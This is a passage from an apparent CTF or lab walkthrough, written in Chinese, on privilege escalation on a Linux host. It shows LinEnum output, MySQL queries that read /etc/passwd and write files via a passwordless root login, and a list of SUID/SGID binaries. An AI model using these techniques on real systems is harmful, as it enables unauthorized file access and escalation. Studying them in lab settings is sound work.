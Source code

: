 ## Priviledge Escalation

LinEnum检查后，喜讯如下，还有一个man命令的SGID权限，先不管了

```
[+] We can connect to the local MYSQL service as 'root' and without a password!
mysqladmin  Ver 8.42 Distrib 5.1.55, for mandriva-linux-gnu on i586
Copyright 2000-2008 MySQL AB, 2008 Sun Microsystems, Inc.
This software comes with ABSOLUTELY NO WARRANTY. This is free software,
and you are welcome to modify and redistribute it under the GPL license

Server version          5.1.55
Protocol version        10
Connection              Localhost via UNIX socket
UNIX socket             /var/lib/mysql/mysql.sock
Uptime:                 17 min 34 sec

Threads: 6  Questions: 2681  Slow queries: 0  Opens: 45  Flush tables: 1  Open tables: 38  Queries per second avg: 2.543
```

可以以mysql管理员身份进入mysql，那我们利用mysql管理员权限读写文件

```mysql
select load_file("/etc/passwd");
select 'aaa' into outfile '/tmp/aaa';
```

发现mysql管理员的权限也就是mysql，我们看到home目录里mysql用户的持有人是root，那看看家目录，好吧，没啥东西，没思路了，再看看LinEnum的结果

必须仔细找，找到如下

```
[-] SGID files:
-rwxr-sr-x 1 root shadow 5176 Jan  9  2010 /usr/lib/chkpwd/tcb_chkpwd
-rwxr-sr-x 1 root polkituser 14076 Apr  5  2010 /usr/lib/polkit-grant-helper
-rwxr-sr-x 1 root polkituser 14468 Apr  5  2010 /usr/lib/polkit-explicit-grant-helper
-rwx--s--x 1 root utmp 10528 Jul 13  2011 /usr/lib/vte/gnome-pty-helper
-rwxr-sr-x 1 root mail 9416 Jul 13  2011 /usr/lib/camel-lock-helper-1.2
-rwxr-sr-x 1 root polkituser 8920 Apr  5  2010 /usr/lib/polkit-read-auth-helper
-rwxr-sr-x 1 root polkituser 15984 Apr  5  2010 /usr/lib/polkit-revoke-helper
-rwxr-sr-x 1 root utmp 5916 Jan 17  2010 /usr/sbin/utempter
-r-xr-sr-x 1 root tty 9636 Jan  9  2010 /usr/bin/wall
-rwsr-sr-x 1 root root 39020 Jun 26  2011 /usr/bin/crontab
-rwxr-sr-x 1 root tty 8396 Nov 16  2010 /usr/bin/write
-rwsr-sr-x 1 daemon daemon 41036 Jan 19  2010 /usr/bin/at
-rwsr-sr-x 1 daemon daemon 137 Jan 19  2010 /usr/bin/batch
-rwxr-sr-x 1 root chkpwd 2885732 May 17  2011 /usr/bin/xlock
-rwx--s--x 1 root shadow 65156 Jan  9  2010 /usr/bin/chage
-rwsr-sr-x 1 root root 5813 Jul 29 10:04 /usr/bin/healthcheck
-rwx--s--x 1 root slocate 31608 Nov 17  2009 /usr/bin/locate
-rwxr-sr-x 1 root man 43160 Jan 17  2011 /usr/bin/man
-rwxr-sr-x 1 root root 3736 Aug  2  2011 /sbin/netreport
```
